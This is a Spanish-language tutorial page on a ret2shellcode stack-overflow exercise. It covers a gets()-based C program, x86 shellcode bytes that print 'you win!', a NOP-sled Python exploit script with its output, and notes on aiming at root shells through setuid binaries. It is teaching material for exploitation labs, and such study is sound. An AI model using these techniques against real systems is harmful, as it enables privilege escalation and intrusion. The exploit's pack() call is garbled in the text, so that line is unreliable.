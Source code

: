 ```yaml
---
description: Ataque Smash the Stack con redirección de Flujo
---
```


# ATAQUE RET2SHELLCODE

### Análisis del programa vulnerable <a href="#analisis-del-programa-vulnerable-1" id="analisis-del-programa-vulnerable-1"></a>

### Stack 5

```c
        #include 

        int main() {
                int cookie;
                char buf[80];

                printf("buf: %08x cookie: %08x\n", &buf, &cookie);
                gets(buf);

                if (cookie == 0x000d0a00)
                        printf("you loose!\n");
        }
```

#### ¿Qué hace el programa? <a href="#que-hace-el-programa-1" id="que-hace-el-programa-1"></a>

El programa es idéntico al de stack4, pero se imprime un mensaje diferente.

#### Solución anterior: aprovechar mensaje existente <a href="#solucion-anterior-aprovechar-mensaje-existente" id="solucion-anterior-aprovechar-mensaje-existente"></a>

No es de utilidad usar la misma estrategia que en el exploit del stack4, dado que si logramos saltear la evaluación condicional, el mensaje que logramos imprimir no es el deseado.

```bash
user@abos:~$ python exploit.py | ./stack5
buf: bffff5b4 cookie: bffff604
==> you loose!
```

#### ¿Cuál es la dificultad principal? <a href="#cual-es-la-dificultad-principal-1" id="cual-es-la-dificultad-principal-1"></a>

¡Ya no podemos saltar al mensaje ganador! El mensaje ganador a imprimir ya no es parte del programa vulnerable.\
&#x20;Una opción entonces es crear un propio programa que imprima el mensaje ganador: nuestro shellcode.

### Ataque “Smash the stack” con inyección de código <a href="#ataque-smash-the-stack-con-inyeccion-de-codigo-1" id="ataque-smash-the-stack-con-inyeccion-de-codigo-1"></a>

Necesitamos imprimir un mensaje ganador que no está en el programa vulnerable. Si bien es posible pensar diferentes ataques para lograr imprimir el string deseado, es una buena excusa para planificar una estrategia de inyección de código.

La inyección de código malicioso en la pila y su posterior ejecución conforman una técnica clásica para explotar programas vulnerables que es necesario conocer aunque su utilización no sea tan simple en escenarios actuales. Es por ello que aún es necesario deshabilitar artificialmente las mitigaciones que impiden ejecución de código en la pila (X^W) y la aleatoriedad en las direcciones de memoria.

La estrategia de ataque involucra crear un programa o shellcode que imprima por salida estándar el mensaje ganador, inyectarlo en la pila y ejecutarlo.

#### Layout de la pila deseado: <a href="#layout-de-la-pila-deseado" id="layout-de-la-pila-deseado"></a>

![](<../../../.gitbook/assets/imagen (67).png>)

{% hint style="info" %}
La instrucción NOP (no operation) hace exactamente lo que parece: nada. Esto la hace muy útil para los exploits que utilizan shellcode ya que al encontrar un NOP la ejecución pasará a la siguiente instrucción. De esta manera, si colocamos un "tobogán" de NOPs antes de nuestro shellcode y apuntamos la dirección de retorno dentro de éste tobogán, la ejecución continuará hasta llegar a la primera instrucción de nuestro shellcode.

Esto nos da un margen de error de unos bytes a la hora de redireccionar el flujo pues la única diferencia es que se ejecutarán más o menos NOPs, deslizandose el EIP por ellos hasta llegar al Shellcode.

En lenguaje ensamblador (Intel x86), el NOP se representa como \x90.
{% endhint %}

En `buf` ya no va a ir basura sino el shellcode antecedido por varios NOPs. Aprovechamos `gets()` para copiar los NOPs y el shellcode como string en la pila en `buf` y sobreescribirmos la dirección de retorno para que apunte a los NOPs de `buf`.

*   Programamos el shellcode\
    &#x20;Nuestro shellcode es un programa simple creado en assembler que con una llamada al sistema imprime “you win!” por salida estándar. \
    \
    Podemos aprender a hacerlo en el [**artículo sobre shellcodes**](https://ajcruz15.gitbook.io/red-team/pwn-linux/teoria/syscall-y-shellcode).

    ```
    shellcode  = "\xeb\x16\x31\xc0\x59\x88\x41\x08\xb0\x04\x31\xdb\x43"
    shellcode += "\x31\xd2\xb2\x09\xcd\x80\xb0\x01\x4b\xcd\x80\xe8\xe5"
    shellcode += "\xff\xff\xff\x79\x6f\x75\x20\x77\x69\x6e\x21\x41"            
    ```
*   Averiguamos dirección de `buf` en la pila ejecutando el programa vulnerable

    ```
    user@abos:~$ gcc -m32 -no-pie -fno-stack-protector -ggdb 
    -mpreferred-stack-boundary=2 -z execstack -o stack5 stack5.c
       
    user@abos:~$ ./stack5
    buf: bffff5b4 cookie: bffff604
    ```
* Planificamos el overflow por entrada estándar, considerando el formato little endian:

![](<../../../.gitbook/assets/imagen (47).png>)

*   Armamos un archivo en Python para ingresar el input

    ```
       
    #! /usr/bin/env python
    """Uso: ./exploit.py | ./stack5 """
       
    import sys
    from struct import pack
       
    #shellcode, imprime you win!
    shellcode  = "\xeb\x16\x31\xc0\x59\x88\x41\x08\xb0\x04\x31\xdb\x43"
    shellcode += "\x31\xd2\xb2\x09\xcd\x80\xb0\x01\x4b\xcd\x80\xe8\xe5"
    shellcode += "\xff\xff\xff\x79\x6f\x75\x20\x77\x69\x6e\x21\x41" 
                   
    ret_addr = 0xbffff5b4                           #addr de buf
       
    exploit  = "\x90" * 20                          #nops iniciales buf
    exploit += shellcode                            #shellcode
    exploit += "A" * (80-20-len(shellcode))         #padding hasta fin de buf
    exploit += "BBBB"                               #lleno cookie
    exploit += "CCCC"                               #lleno ebp
    exploit += pack(", ret_addr)                 #defino return address
       
    sys.stdout.write(exploit)    
    ```
*   Ejecutamos el exploit

    ```
    user@abos:~$ ./exploit.py | ./stack5
    buf: bffff5b4 cookie: bffff604
    you win!
    ```

    Gráficamente logramos el siguiente resultado:

![](<../../../.gitbook/assets/imagen (51).png>)

Es interesante tener en cuenta que el shellcode utilizado realiza un syscall `write` para imprimir el mensaje y luego un syscall `exit` para finalizar el proceso exitosamente. A diferencia de lo que sucedía en el stack4 (ejercicio en el que la destrucción del layout de la pila provocaba una violación de segmento), en este caso por el modo en que fue construido el shellcode el programa finaliza sin errores.

#### Lograr privilegios de root <a href="#lograr-privilegios-de-root" id="lograr-privilegios-de-root"></a>

En escenarios reales el objetivo no será imprimir un mensaje ganador sino lograr privilegios de root para exponer archivos e información privada, manipular logs, etc.\
&#x20;Existen varias estrategias para lograr una shell con privilegios de root o directamente para escalar privilegios a partir de una shell, que exceden el objetivo de esta guía en este punto. Por ejemplo en un escenario en el que se ataca un binario compilado con setuid root, si se logra que el programa vulnerable realice una syscall execve y ejecute una shell con `execve("/bin/sh")` ésta será una root shell. Es por ello que en la compilación del binario ejecutable modificamos los permisos de la siguiente manera:

```bash
user@abos:~$ gcc -m32 -no-pie -fno-stack-protector -ggdb 
-mpreferred-stack-boundary=2 -z execstack -o abo abo.c
user@abos:~$ sudo chown root ./abo; sudo chmod u+s ./abo  ; root owner & setuid
user@abos:~$ ls -la
-rwsr-xr-x  1 root   user XXXX Jan 01 00:00 abo
```
